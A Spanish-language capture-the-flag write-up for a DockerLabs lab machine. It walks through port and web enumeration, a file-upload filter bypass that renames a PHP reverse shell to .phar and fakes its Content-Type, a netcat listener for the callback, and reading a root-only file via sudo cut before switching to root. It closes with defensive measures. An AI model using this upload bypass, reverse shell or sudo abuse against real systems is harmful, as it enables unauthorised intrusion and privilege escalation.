# DockerLabs Fácil - Upload PHAR y escalada con sudo

> Laboratorio realizado en entorno local y controlado con fines educativos.  
> No utilizar esta metodología contra sistemas reales sin autorización expresa.

## Objetivo

Documentar la resolución de una máquina de dificultad **fácil** en DockerLabs, siguiendo una metodología básica de auditoría técnica:

1. Despliegue de la máquina vulnerable.
2. Reconocimiento de conectividad y puertos.
3. Enumeración del servicio web.
4. Análisis de una funcionalidad de subida de archivos.
5. Bypass de validación mediante extensión `.phar`.
6. Obtención de acceso inicial como `www-data`.
7. Revisión de privilegios `sudo`.
8. Lectura de archivos protegidos mediante binarios permitidos.
9. Acceso final como `root`.
10. Documentación de medidas defensivas.

## Ficha rápida

| Campo | Valor |
|---|---|
| Plataforma | DockerLabs |
| Dificultad | Fácil |
| Entorno | Local / DockerLabs |
| Sistema esperado | Linux / Ubuntu |
| Servicio principal | HTTP / Apache en puerto 80 |
| Vector principal | Subida de archivo + bypass de extensión `.phar` |
| Acceso inicial | `www-data` |
| Escalada | `sudo` mal configurado para `/usr/bin/cut` y `/usr/bin/grep` |
| Objetivo final | Acceso `root` y evidencia final |

---

## 1. Despliegue de la máquina

Se levanta la máquina vulnerable usando el script de despliegue de DockerLabs.

```bash
sudo bash auto_deploy.sh dockerlabs.tar
```

El script muestra la IP asignada a la máquina. En esta práctica se trabaja con la IP de ejemplo:

```text
172.17.0.2
```



---

## 2. Comprobación de conectividad

Desde una segunda terminal de Kali se comprueba que la máquina responde.

```bash
ping -c 4 172.17.0.2
```



---

## 3. Reconocimiento con Nmap

Se realiza un escaneo de puertos para identificar servicios expuestos.

```bash
sudo nmap -p- -sC -sV --open -sS -n -Pn 172.17.0.2 -oN dockerlabs.txt
```

Parámetros principales:

| Parámetro | Función |
|---|---|
| `-p-` | Escanea todos los puertos TCP |
| `-sC` | Ejecuta scripts básicos de Nmap |
| `-sV` | Detecta versiones de servicios |
| `--open` | Muestra solo puertos abiertos |
| `-sS` | SYN scan |
| `-n` | Evita resolución DNS |
| `-Pn` | Trata el host como activo |
| `-oN` | Guarda el resultado en texto plano |

Resultado principal esperado:

```text
80/tcp open http Apache httpd 2.4.58
```



---

## 4. Revisión del servicio HTTP

Como el puerto 80 está abierto, se revisa la respuesta HTTP desde terminal.

```bash
curl -I http://172.17.0.2
curl -s http://172.17.0.2 | head
```



---

## 5. Enumeración web con Gobuster

Se enumeran rutas y archivos web usando un diccionario de Dirbuster.

```bash
gobuster dir -u http://172.17.0.2 \
  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt \
  -t 32 \
  -x php,html,txt,zip
```

Rutas relevantes encontradas:

```text
/uploads/
/machine.php
```



---

## 6. Revisión de `machine.php` y `/uploads/`

La página `machine.php` contiene una funcionalidad de subida de archivos.

```text
http://172.17.0.2/machine.php
```



También se revisa el directorio donde se almacenan los archivos subidos:

```text
http://172.17.0.2/uploads/
```



El listado de directorios activo es una mala práctica, porque permite ver directamente los archivos subidos.

---

## 7. Prueba de subida de archivo

Antes de intentar ejecutar código, se prueba una subida simple con un archivo de texto.

```bash
echo "prueba dockerlabs" > prueba.txt
ls -l prueba.txt
```



La aplicación no permite subir archivos que no sean `.zip`.



Esto indica que existe una validación de extensión, pero todavía hay que comprobar si es suficientemente robusta.

---

## 8. Preparación de la reverse shell PHP

Primero se identifica la IP de Kali que será alcanzable desde el contenedor vulnerable. En entornos DockerLabs suele ser la interfaz `docker0`.

```bash
ip addr show docker0
hostname -I
```



Después se prepara una reverse shell PHP.

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
nano shell.php
```

Dentro del archivo se configuran los valores de conexión:

```php
$ip = '172.17.0.1';
$port = 1337;
```



---

## 9. Listener con Netcat

Antes de ejecutar la shell en la máquina vulnerable, se deja Kali escuchando en el puerto elegido.

```bash
rlwrap nc -nvlp 1337
```



---

## 10. Interceptación con Burp Suite

La aplicación no permite subir directamente un archivo `.php`, así que se intercepta la petición con Burp Suite y se modifica el nombre del archivo.

Flujo general:

1. Abrir Burp Suite.
2. Usar el navegador integrado de Burp.
3. Entrar en `http://172.17.0.2/machine.php`.
4. Seleccionar `shell.php`.
5. Interceptar la petición.
6. Cambiar el nombre del archivo a `shell.phar`.
7. Enviar la petición modificada.



Cambio relevante en la petición:

```text
filename="shell.php"  ->  filename="shell.phar"
Content-Type: application/x-php  ->  Content-Type: application/zip
```



La extensión `.phar` puede ser interpretada por PHP en determinadas configuraciones. Por eso, aunque el sistema bloquee `.php`, una validación débil puede permitir ejecución mediante extensiones alternativas.

---

## 11. Ejecución de `shell.phar`

Una vez subida la shell, se comprueba que aparece en `/uploads/`.

```text
http://172.17.0.2/uploads/
```



Después se ejecuta accediendo a su ruta:

```text
http://172.17.0.2/uploads/shell.phar
```

Si el listener estaba correctamente configurado, se recibe una conexión en Kali.



---

## 12. Acceso inicial como `www-data`

Se comprueba el usuario dentro del sistema comprometido.

```bash
whoami
id
hostname
```

Resultado esperado:

```text
www-data
```



---

## 13. Enumeración de privilegios sudo

Se revisan permisos `sudo` del usuario `www-data`.

```bash
sudo -l
```

Resultado relevante:

```text
(root) NOPASSWD: /usr/bin/cut
(root) NOPASSWD: /usr/bin/grep
```



Esto es una mala configuración importante. Aunque `cut` y `grep` parecen comandos simples, ejecutados como `root` permiten leer archivos protegidos del sistema.

---

## 14. Lectura de archivo protegido

Con `cut` ejecutado mediante `sudo`, se puede leer un archivo protegido dentro de `/root`.

```bash
sudo /usr/bin/cut -c1- /root/clave.txt
```

La contraseña se ha redactado en la captura para evitar publicar secretos, aunque sean de laboratorio.



---

## 15. Acceso como root

Con la clave obtenida en el laboratorio, se cambia al usuario `root`.

```bash
su - root
whoami
id
hostname
```

La contraseña también se ha redactado en la captura.



---

## 16. Evidencia final

Se crea una evidencia final dentro de `/root`.

```bash
echo "Practica DockerLabs completada - $(date)" > /root/evidencia_dockerlabs.txt
cat /root/evidencia_dockerlabs.txt
whoami
id
```



---

## Problemas frecuentes

| Problema | Revisión recomendada |
|---|---|
| No responde el ping | Comprobar que la máquina está levantada y que la IP es correcta |
| Gobuster no encuentra rutas | Revisar IP, puerto 80 y diccionario usado |
| No aparece el archivo en `/uploads/` | Verificar la subida y la modificación en Burp |
| No llega la reverse shell | Revisar `LHOST`, `LPORT`, listener de Netcat y ejecución de `shell.phar` |
| `su root` falla | Revisar que la clave copiada no tenga espacios ni saltos de línea extra |

---

## Medidas defensivas

Para evitar una máquina vulnerable como esta, se deberían aplicar estas medidas:

- Validar correctamente archivos subidos: extensión, MIME real y contenido.
- No permitir extensiones ejecutables como `.php`, `.phar`, `.phtml` o similares.
- Guardar archivos subidos fuera del directorio público de la web.
- Desactivar el listado de directorios en `/uploads/`.
- Ejecutar el servicio web con privilegios mínimos.
- No conceder `sudo NOPASSWD` a binarios que puedan leer archivos del sistema.
- Revisar periódicamente `/etc/sudoers`.
- No almacenar contraseñas en texto plano en rutas como `/root/clave.txt`.
- Usar contraseñas robustas que no aparezcan en diccionarios comunes.
- Aplicar siempre el principio de mínimo privilegio.

---

## Conclusión

Esta máquina resume varios fallos habituales en entornos web mal configurados:

1. Validación débil en subida de archivos.
2. Directorio de subidas accesible públicamente.
3. Ejecución de extensiones peligrosas por el servidor web.
4. Usuario de servicio con permisos `sudo` excesivos.
5. Secretos almacenados en texto plano.

Aunque es una máquina de dificultad fácil, sirve muy bien para practicar una cadena completa: reconocimiento, enumeración web, bypass de subida, acceso inicial, enumeración local y escalada de privilegios.
